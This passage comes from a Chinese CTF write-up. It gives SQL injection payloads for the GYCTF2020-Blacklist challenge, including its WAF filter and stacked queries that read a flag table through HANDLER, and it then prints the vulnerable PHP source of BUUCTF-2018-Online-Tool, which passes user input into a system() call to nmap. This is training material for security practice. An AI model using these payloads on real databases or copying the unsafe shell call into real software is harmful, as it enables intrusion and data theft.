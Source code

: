 查看源代码 base64解码

我这里得科学上网才能继续以上操作。

以上为预期解法，还有另外一种非预期解法，利用报错注入。

https://www.cnblogs.com/renhaoblog/p/14081011.html


## GYCTF2020-Blacklist

?inject=1%27or%201=%271

?inject=1%27%20order%20by%202--+
2列
?inject=1' union select 1,2--+

waf:
``return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);``

尝试堆叠注入:

```
1';show tables#
1';show columns from `FlagHere`; %23  
1';desc FlagHere;%23
字段名为flag 表名为FlagHere

相比强网杯 多过滤了rename alter prepare，所以预编译与偷天换日方法都不能用，只能用handler

 # 打开FlagHere表  # 访问 #关闭
1';
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;#   
```

## BUUCTF-2018-Online-Tool

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```
